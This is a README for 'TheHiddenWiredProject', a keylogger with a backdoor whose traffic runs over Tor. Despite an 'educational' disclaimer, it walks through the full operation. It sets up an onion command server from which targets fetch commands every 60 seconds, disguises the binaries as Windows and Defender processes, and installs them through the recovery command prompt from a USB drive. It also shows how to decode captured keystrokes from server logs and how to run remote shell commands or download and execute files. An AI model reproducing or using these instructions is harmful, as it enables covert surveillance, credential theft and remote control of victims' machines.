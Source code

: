 <pre>
THIS PROJECT WAS CREATED FOR EDUCATIONAL AND EXPERIMENTAL PURPOSES ONLY. DO NOT USE IT ON MACHINES THAT ARE NOT YOUR OWN OR THAT ARE NOT PART OF YOUR VIRTUAL LAB!
EVEN IF THE CHOSEN NAMES ARE ULTRA STEALTH, THAT DOES NOT MEAN IT SHOULD BE USED IMPROPERLY!
I take no responsibility for any direct, indirect, or collateral damage resulting from improper or unauthorized use of this tool. Use is entirely under the user's own responsibility.
  

--------------------------------------- TheHiddenWiredProject ---------------------------------------

What is TheHiddenWiredProject?
TheHiddenWiredProject (THWP) is a keylogger with an integrated backdoor designed to be ultra stealthy
because all traffic generated is routed through Tor!

Is it safe?
Yeah bro, it's 100% safe, you can modify the code however you want without issues, while Tor helps
you hide your server (used to listen to the keylogger and use the backdoor).

So I need to set up a server?
Yeah, it's necessary to have a high enough level of anonymity

Is it ready to use?
Absolutely not, you have to compile it yourself, it's super easy, keep reading and I'll explain

Do you recommend it?
Absolutely yes! This tool is extremely compact, yet at the same time ultra stealthy,
you'd never find a keylogger with a Tor-based backdoor on the internet!

------------ The Brains Behind THWP ------------
Isass.py ---> Tor Proxy
SecurityHealthSystray.bat ---> Starts proxy, Brain, and Tor
WMIHost.py ---> THWP (Brain)
wuasrv.exe ---> Tor.exe (Downloaded from the official site, but renamed)
wuasrvs.py ---> Delayed Tor launch to avoid errors
installer.bat ---> Installer from WindowsPE

----------------------------------------------------------------------------------------------------

Let's move on to the boring theory that's necessary to configure the server and compile THWP

Starting with the required tools...

A PC or VM with Linux (I recommend a Debian-based distro like Debian, Ubuntu, Mint, etc.)
A stable internet connection (at least 2Mbitps)

----------------------------------------------------------------------------------------------------
Create and configure the Tor server:

#To avoid issues, become root with "sudo su"

#install apache and tor
sudo apt install apache2 tor

#run at startup automatically
sudo systemctl enable apache2
sudo systemctl enable tor

#start the daemons
sudo systemctl start apache2
sudo systemctl start tor

#configure the apache server
cd /var/www/html
sudo rm **
sudo mkdir payloads_httpcmd
cd payloads_httpcmd
sudo nano default.txt (this is where the commands the target will execute every 60 seconds go)

#edit the torrc file
sudo nano /etc/tor/torrc

#Add the following information at the end of the file:

HiddenServiceDir /var/lib/tor/serverTHWP
HiddenServicePort 80 127.0.0.1:80

#The first string "HiddenServiceDir" specifies where tor will save the server config (DO NOT USE CUSTOM DIRECTORY TO AVOID ISSUES, LEAVE IT AS IS)
#The second string hosts on port 80

#Now you need to restart Tor to apply the changes
sudo systemctl restart tor

#If you have doubts go to: https://community.torproject.org/onion-services/setup/
#Or ask ChatGPT

#Now you need to see your tor domain, you can find it with:
cat /var/lib/tor/serverTHWP/hostname

#To avoid issues, become root with "sudo su"

----------------------------------------------------------------------------------------------------

Now you need to configure TheHiddenWiredProject so it routes traffic to your domain,
so edit the file Isass.py, find a variable called "TARGET_ONION" (you’ll find it at the beginning),
and put your domain there (the one ending in .onion that you found in the hostname file)

----------------------------------------------------------------------------------------------------

Now everything is ready! You can test the functionality on a Windows VM, if everything works you can compile everything!

To compile everything you need a Windows machine, we’ll use nuitka to turn our python files into executables.

1) Install Python on the Windows machine (Not from MStore but from the official site)
2) Now open the terminal and type: pip install nuitka (If pip is not found, restart Windows after installing Python)
3) Now type: nuitka --onefile --windows-disable-console file.py

#--onefile = single .exe file
#--windows-disable-console = no prompt when executed

4) Run nuitka for every .py file (Isass.py, WMIHost.py, wuasrvs.py)
5) After compiling all the .py files you need to compile SecurityHealthSystray.bat with Bat-To-Exe-Converter (Look it up online) NOTE: INSTALLER.BAT MUST REMAIN RAW, DO NOT COMPILE IT!
6) Add the defender icon to the .bat file inside the compiler to get an .exe with Defender icon
----------------------------------------------------------------------------------------------------

Now you’re almost done!
Copy the compiled project onto a USB drive, copy the file installer.bat to the main directory of the USB, delete the "WPE" folder
and the result should be this:

E:\\Isass.exe
E:\\Installer.bat
E:\\SecurityHealthSystray.exe
E:\\WMIHost.exe
E:\\wuasrv.exe
E:\\wuasrvs.exe

If it doesn’t match, you messed something up.


How do I install it??
1) Boot Windows
2) Once you are at the lock screen, go to the shutdown menu, hold "SHIFT" while clicking "Restart"
3) You should see on screen "Please wait"
4) After the reboot go to: Troubleshoot > Advanced options > Command prompt
5) Now find the letter of the USB (varies from PC to PC), try from C to J (just type the letter followed by a colon, like "c:")
6) Once you find the USB, run installer.bat
7) The PC will reboot by itself and TheHiddenWiredProject will be installed!
8) Have fun!
----------------------------------------------------------------------------------------------------

How do I check the keys pressed?
Pressed keys are saved on the server at "/var/log/apache2/access.log" in base32 in 32-character stacks, you need to decode them from base32 to plaintext, just look online for "base32 to text", paste the request and you'll see the pressed keys.

Example:
root@debianVM:/var/log/apache2# cat access.log
127.0.0.1 - - "GET /UNIQUE_CODE_GENERATED/MNUWC33PFQQHC5LFON2G6IGDVEQHK3RA" 404
127.0.0.1 - - "GET /UNIQUE_CODE_GENERATED/ORSXG5BBEE======" 404

We only consider the base32 part, so this: MNUWC33PFQQHC5LFON2G6IGDVEQHK3RA and this: ORSXG5BBEE======
if we decode them we get:

stack1 "MNUWC33PFQQHC5LFON2G6IGDVEQHK3RA" = hi, this is a 
stack2 "ORSXG5BBEE======" = test!!

----------------------------------------------------------------------------------------------------

To execute code on the machine via the backdoor, just edit the file: /var/www/html/payloads_httpcmd/default.txt
and write Windows shell code, and it will be executed with the privileges of the current user, we can also download files with curl and execute them.
But be careful, you have to make sure that the shell code is not executed in a loop, because otherwise you risk messing things up, so once you see
the request for the payload, remove the content of default.txt, otherwise the code will be executed every 60 seconds!

----------------------------------------------------------------------------------------------------

HAVE FUN IN AN ETHICAL AND HEALTHY WAY, WITHOUT CAUSING REAL DAMAGE TO PEOPLE, DATA, OR SYSTEMS THAT DO NOT BELONG TO YOU!

                                                             100% created with the mind of ElektroWindows :)
</pre>
